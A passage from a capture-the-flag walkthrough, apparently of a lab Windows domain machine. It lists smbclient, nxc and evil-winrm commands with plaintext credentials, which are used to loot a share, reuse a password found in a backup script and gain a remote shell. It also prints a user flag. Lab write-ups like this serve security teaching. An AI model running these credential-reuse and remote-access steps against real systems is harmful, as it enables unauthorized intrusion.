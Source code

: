 Let’s look at the contents inside the `DEV` share.

```apache
smbclient -U 'cicada/david.orelious%aRt$Lp#7t*VQ!3' //10.129.64.6/DEV
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747291000224/39095641-6620-4d4e-a5fb-73d9c2257272.png align="center")

We have a file name `Backup_script.ps1`. Let’s download it to our machine and see what we have in there.

```apache
mget *.ps1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747291071456/abe90520-1bd4-42bd-9ecb-6c3bcc6f919d.png align="center")

```apache
cat Backup_script.ps1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747291115176/0b5c472f-3bc4-408e-8d9e-8dbea35757be.png align="center")

So, we have the password for `emily.oscars` i.e. `Q!3@Lp#M6b*7t*Vt`. Let’s see if the creds are valid for WinRM.

```apache
nxc winrm 10.129.64.6 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747291858373/b1cbf1a6-046f-417b-8ead-5c89f75137e5.png align="center")

Let’s now connect using `evil-winrm`.

```apache
evil-winrm -i 10.129.64.6 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747292021080/f2f9f8c7-2ce4-4249-a326-2ff621ebc98b.png align="center")

Let’s now get our first flag.

```apache
type C:\Users\emily.oscars.CICADA\Desktop\user.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747292099242/5c1d749f-b6cf-49aa-917a-6aef1ddff505.png align="center")

Flag: **2b8a749011d596957ba7c3159c1ea4a5**

Let’s now move to the root. Checking the privileges of Emily user.

```apache
net user emily.oscars
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747293395061/5655260a-6131-4852-9a50-cc6bf1fe60bc.png align="center")

Emily is a member of `Backup Operators` group.
